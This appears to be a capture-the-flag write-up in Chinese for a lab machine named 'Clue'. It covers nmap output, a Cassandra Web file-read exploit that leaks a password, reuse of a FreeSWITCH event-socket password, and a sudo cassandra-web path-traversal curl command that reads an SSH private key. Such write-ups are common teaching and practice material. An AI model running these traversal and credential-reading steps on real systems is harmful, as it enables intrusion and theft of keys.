

## 偵查

```shell
Open 192.168.110.240:22
Open 192.168.110.240:80
Open 192.168.110.240:139
Open 192.168.110.240:445
Open 192.168.110.240:3000
Open 192.168.110.240:8021
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sC -sV" on ip 192.168.110.240
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-03 11:49 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 192.168.110.240 [4 ports]
Completed Ping Scan at 11:49, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:49
Completed Parallel DNS resolution of 1 host. at 11:49, 0.25s elapsed
DNS resolution of 1 IPs took 0.25s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:49
Scanning 192.168.110.240 [6 ports]
Discovered open port 22/tcp on 192.168.110.240
Discovered open port 139/tcp on 192.168.110.240
Discovered open port 80/tcp on 192.168.110.240
Discovered open port 445/tcp on 192.168.110.240
Discovered open port 3000/tcp on 192.168.110.240
Discovered open port 8021/tcp on 192.168.110.240
Completed SYN Stealth Scan at 11:49, 0.30s elapsed (6 total ports)
Initiating Service scan at 11:49
Scanning 6 services on 192.168.110.240
Completed Service scan at 11:49, 11.81s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.110.240.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
NSE Timing: About 99.88% done; ETC: 11:49 (0:00:00 remaining)
Completed NSE at 11:50, 40.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:50
Completed NSE at 11:50, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:50
Completed NSE at 11:50, 0.00s elapsed
Nmap scan report for 192.168.110.240
Host is up, received echo-reply ttl 61 (0.28s latency).
Scanned at 2025-09-03 11:49:12 EDT for 54s

PORT     STATE SERVICE          REASON         VERSION
22/tcp   open  ssh              syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp   open  http             syn-ack ttl 61 Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: 403 Forbidden
139/tcp  open  netbios-ssn      syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      syn-ack ttl 61 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             syn-ack ttl 61 Thin httpd
|_http-server-header: thin
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 68089FD7828CD453456756FE6E7C4FD8
|_http-title: Cassandra Web
8021/tcp open  freeswitch-event syn-ack ttl 61 FreeSWITCH mod_event_socket
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 23001/tcp): CLEAN (Timeout)
|   Check 2 (port 55584/tcp): CLEAN (Timeout)
|   Check 3 (port 36482/udp): CLEAN (Timeout)
|   Check 4 (port 30530/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-09-03T15:49:26
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: clue
|   NetBIOS computer name: CLUE\x00
|   Domain name: pg
|   FQDN: clue.pg
|_  System time: 2025-09-03T11:49:28-04:00

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:50
Completed NSE at 11:50, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:50
Completed NSE at 11:50, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:50
Completed NSE at 11:50, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.27 seconds
           Raw packets sent: 10 (416B) | Rcvd: 7 (292B)
```

## 列舉
- 80 port forbidden  


- 3000 port 

並且可以執行 "CQL"


- Cassandra Exploit

有一個遠程讀取檔案  

- goburster
  

- /etc/passwd


## 取得一般使用者

在讀 exploit 的時候，有發現可以讀取 `/proc/self/cmdline` ，可以嘗試讀取
```
/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330
```
發現有以上的 credential。  
再來嘗試 ssh 登入，但是失敗，原因是 sshd_config 只有設定 root 以及 anthony 可以登入。

  
再檢查 port scan 的結果時，發現有個 8021 port 是 FreeSWITCH mod_event_socket
```bash
8021/tcp open  freeswitch-event syn-ack ttl 61 FreeSWITCH mod_event_socket
```
感覺這邊是一個可以利用的地方。  
於是找找看 exploit 的相關資料，發現有一個可以利用的 [exploit](https://www.exploit-db.com/exploits/47799)。  
但是他的預設密碼是錯的。  
在網路上找到，FreeSWITCH mod_event_socket 的設定路徑是 `/etc/freeswitch/autoload_configs/event_socket.conf.xml`。  
```xml
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="0.0.0.0"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="StrongClueConEight021"/>
  </settings>
</configuration>
```
之後嘗試利用這個 password，成功取得 freeswitch 使用者權限。
接著利用 su 切換到 cassie 使用者。

## 提權

cassie 的 sudo 可以用的指令只有
```bash
User cassie may run the following commands on clue:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web
```
cassandra-web 既然有 NOPASSWD 的權限，那就可以嘗試利用這個來提權。  
```bash
sudo /usr/local/bin/cassandra-web
```
```bash
Usage: cassandra-web [options]
    -B, --bind BIND                  ip:port or path for cassandra web to bind on (default: 0.0.0.0:3000)
    -H, --hosts HOSTS                coma-separated list of cassandra hosts (default: 127.0.0.1)
    -P, --port PORT                  integer port that cassandra is running on (default: 9042)
    -L, --log-level LEVEL            log level (default: info)
    -u, --username USER              username to use when connecting to cassandra
    -p, --password PASS              password to use when connecting to cassandra
    -C, --compression NAME           compression algorithm to use (lz4 or snappy)
        --server-cert PATH           server ceritificate pathname
        --client-cert PATH           client ceritificate pathname
        --private-key PATH           path to private key
        --passphrase SECRET          passphrase for the private key
    -h, --help                       Show help

```
這樣就知道，可以利用 cassie 啟動這個 cassandra-web 在本地上，然後讓他在背景執行，這樣就可以任意讀取本地檔案。
```shell
sudo /usr/local/bin/cassandra-web -B 127.0.0.1:8111 -u cassie -p 'SecondBiteTheApple330' >/dev/null 2>&1 &
```
```
curl --path-as-is http://localhost:8111/../../../../../../../../home/anthony/.ssh/id_rsa
```
以上的 private key 就是 root 的 private key。